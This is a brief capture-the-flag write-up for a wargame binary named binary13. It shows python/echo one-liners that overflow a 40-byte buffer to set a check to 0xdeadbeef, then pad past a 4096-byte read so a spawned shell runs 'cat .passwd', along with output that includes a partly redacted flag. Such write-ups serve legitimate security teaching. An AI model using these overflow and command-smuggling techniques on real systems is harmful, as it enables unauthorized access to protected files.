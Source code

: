 The overflow is quite easy, after 40 bytes, the input will go to the buffer.

binary13@challenge02:~$ echo -n `python -c "print '0'*40+'\xef\xbe\xad\xde'"` | ./binary13

[buf]: 0000000000000000000000000000000000000000ﾭ▒
[check] 0xdeadbeef
Yeah dude ! You win !
But forcing the stdin via pipe or file redirection forces the forked process (’dash’) to read from the inherited stdin. Having a look to strace, the parent reads 4096 bytes at once. Thus to give input to the child we just need to give what we want after 4096.

binary13@challenge02:~$ echo -n `python -c "print '0'*40+'\xef\xbe\xad\xde'+'0'*4052+'cat .passwd'"` | ./binary13

[buf]: 0000000000000000000000000000000000000000ﾭ▒
[check] 0xdeadbeef
Yeah dude ! You win !
1w4[...]p1s
